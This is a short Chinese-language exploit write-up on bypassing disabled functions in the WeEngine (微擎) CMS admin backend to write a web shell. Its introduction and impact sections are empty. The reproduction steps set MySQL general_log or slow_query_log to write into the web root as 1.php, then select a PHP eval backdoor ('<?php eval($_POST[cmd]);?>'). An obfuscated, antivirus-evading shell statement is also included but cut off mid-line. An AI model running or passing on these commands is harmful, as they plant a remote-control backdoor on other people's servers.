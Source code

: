 微擎 绕过禁用函数写shell
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1.站点设置里面打开调试

![](./resource/微擎后台绕过禁用函数写shell/media/rId25.png)

### 2.执行语句

select into被禁止

![](./resource/微擎后台绕过禁用函数写shell/media/rId27.png)

### 3.利用日志文件写shell

    show variables like '%general%';  #查看配置

    set global general_log = on;  #开启general log模式

    set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地址

    select '<?php eval($_POST[cmd]);?>'  #写入shell

![](./resource/微擎后台绕过禁用函数写shell/media/rId29.png)

### 4.SQL查询免杀shell的语句

    SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$

### 补充:来自土司\@GuoKerSb的分享

在无法修改general\_log\_file指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动slow\_query\_log（慢查询日志，默认关闭）来写shell

    set global slow_query_log=1;
    set global slow_query_log_file='/var/www/html/1.php';
    select '<?php eval($_POST[cmd]);?>' or sleep(11);

四、参考链接
------------

> <https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html>

